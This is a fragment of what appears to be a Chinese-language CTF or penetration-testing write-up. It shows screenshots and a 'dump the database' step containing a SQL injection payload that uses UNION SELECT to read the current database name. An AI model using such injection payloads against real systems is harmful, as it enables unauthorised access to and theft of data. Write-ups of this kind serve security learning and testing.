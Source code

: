 ![image-20221112211058412](https://s2.loli.net/2022/11/25/UxPYyoum7aj5LCG.png)

![image-20221112211110862](https://s2.loli.net/2022/11/25/jAMw562xRLhUN4y.png)





**爆库**

```
 union select '1',(select current_database()),'3','4' 
```

![image-20221112211220684](https://s2.loli.net/2022/11/25/654fWjrh3H78zdG.png)